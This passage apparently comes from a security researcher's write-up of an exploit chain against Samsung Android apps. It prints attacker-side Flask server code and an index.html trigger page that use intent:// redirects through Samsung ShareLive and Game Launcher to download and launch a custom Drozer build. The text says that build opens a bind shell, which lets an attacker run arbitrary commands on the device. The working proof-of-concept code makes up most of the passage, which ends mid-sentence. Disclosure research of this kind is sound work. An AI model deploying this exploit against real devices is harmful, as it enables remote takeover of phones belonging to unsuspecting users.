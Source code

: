 ```

# sharelive to download yay.apk to arbitrary location
@app.route('/yayshareliveyay')
def yayshareliveyay():
    yayqrcodeyay = "88AKqZwy2Hmr"
    return redirect("intent://qr.quickshare.samsungcloud.com/" + yayqrcodeyay + "#Intent;component=com.samsung.android.app.sharelive/com.samsung.android.app.sharelive.presentation.applink.QrCodeAppLinkActivity;scheme=https;end;", code=302)

# launch drozer
@app.route('/yaylaunchyay')
def yaylaunchyay():
    return redirect("intent://#Intent;component=com.yaydevhackmodyay.drozer/com.mwr.dz.activities.MainActivity;end;", code=302)

# pichu dancing
@app.route('/pichu-dance.gif')
def pichuDance():
    return send_from_directory('', 'pichu-dance.gif')

if __name__ == '__main__':
    context = ('cert.pem', 'key.pem')
    app.run(debug=True, port=8000, host="0.0.0.0")
```

Finally, the contents of `index.html` that is on the same webserver being hosted by `yay.py` is below:

```
<h1>
	<button style="height:200px;width:200px" onclick="yayfunctionyay()">yaypocyay</button>

	<script type="text/javascript">

		function yayfunctionyay() {
			var yayhostyay = location.hostname; // gets host / domain, can also set this to a static value
            var yayportyay = location.port // must be a port number of some sort, or let the script get the port number

			// redirect to game home
	location.href="intent://com.samsung.android.game.gamehome/gmp?url=https://us.mcsvc.samsung.com.<redacted>.com?yayattackeryay=" + yayhostyay + ":" + yayportyay + "#Intent;scheme=gamelauncher;end";
					
	</script>
	<br>
	<img src="pichu-dance.gif">
</h1>
```

After a successful exploitation, Drozer will be installed and launched on the device. The custom build of Drozer starts a bind shell when the application is opened. Because of this, it is possible for an attacker to connect to the Drozer bind shell and execute arbitrary commands:
